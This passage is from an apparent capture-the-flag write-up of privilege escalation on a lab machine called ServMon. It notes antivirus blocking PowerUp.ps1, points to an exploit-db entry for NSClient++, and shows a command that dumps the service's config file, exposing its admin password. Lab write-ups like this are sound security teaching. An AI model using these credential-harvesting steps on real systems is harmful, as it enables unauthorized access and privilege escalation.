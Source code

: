 Note: These credentials also work for SSH, which I ended up switching over to for privilege escalation.

### Privilege Escalation

Trying to load PowerUp.ps1 to the target, we see we'll have some AV to contend with:

![servmon_av.png](../assets/servmon_assets/servmon_av.png)

Manually enumerating the target further I find a NSClient++ folder in Program Files.

Looking at this service I see it runs on port 8443, which is also open on this box.

Looking at potential exploits I find: https://www.exploit-db.com/exploits/46802

And see that we can access the service's admin password with the command:

```
nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini 
ï»¿# If you want to fill this file with all available options run the following command: 
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help


; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
```

Ok cool. Seems like we're on the right track here. The only issue is that we can only access the site at localhost, so we can't just navigate to the site on the web as normal:
